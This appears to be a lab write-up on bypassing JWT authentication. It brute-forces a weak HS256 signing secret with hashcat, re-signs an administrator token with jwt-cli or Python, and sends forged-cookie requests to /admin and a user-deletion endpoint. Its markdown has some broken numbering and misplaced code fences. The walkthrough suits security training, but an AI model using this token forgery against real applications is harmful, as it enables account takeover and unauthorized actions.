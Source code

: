 ## JWT Authentication Bypass via Weak Signing Key

This lab demonstrates how an attacker can exploit a weak secret used to sign JWTs. If the signing key is weak or predictable, it can be brute-forced, allowing an attacker to forge a valid token and impersonate other users — such as the administrator.

### Steps to Reproduce

#### Part 1 - Brute-force the Secret Key

1. **Install JWT Editor extension in Burp Suite**  
   Load it from the BApp Store.

2. **Log in with the provided credentials: wiener: peter
3. 3. **Capture the JWT session token**  
In **Burp > Proxy > HTTP History**, find the `GET /my-account` request after login. Send it to **Repeater**.

4. **Try accessing admin panel**  
In Repeater, change the request path to `/admin`. It should return an unauthorized error.

5. **Copy the JWT token for brute-forcing**  
Use `hashcat` or any other tool to brute-force the secret.

```bash
hashcat -a 0 -m 16500 <JWT> /path/to/wordlist_to_crack
```
### P– Modify and Re-sign the JWT (in code)

```bash
# Step 1: Create a new JWT payload with "sub": "administrator"
# Save this payload as payload.json
```

echo '{"sub":"administrator"}' > payload.json
# Step 2: Re-sign the JWT using the discovered secret key
# You can use jwt.io manually OR sign via a tool like jwt-tool, jwt-cli, or a simple Python script

# Using jwt-cli (https://github.com/mike-engel/jwt-cli)
jwt sign payload.json --secret 'secret1' --alg HS256

# Alternatively, use Python to re-sign manually
import jwt
payload = {'sub': 'administrator'}
secret = 'secret1'
token = jwt.encode(payload, secret, algorithm='HS256')
print(token)
# Step 3: Replace the original session token in Burp with the new signed JWT
# Paste it into the Cookie header like:
# Cookie: session=<your_forged_jwt>
# Step 4: Send the forged request to /admin
GET /admin HTTP/1.1
Host: <target>
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhZG1pbmlzdHJhdG9yIn0.vJfz3lZH9nZOf_s6tfbT_A2kbHK7SOM7FZ3R61z_ly0
# Step 5: After accessing /admin, find and request the deletion endpoint
# Example:
GET /admin/delete?username=carlos HTTP/1.1
Host: <target>
Cookie: session=<your_forged_jwt>
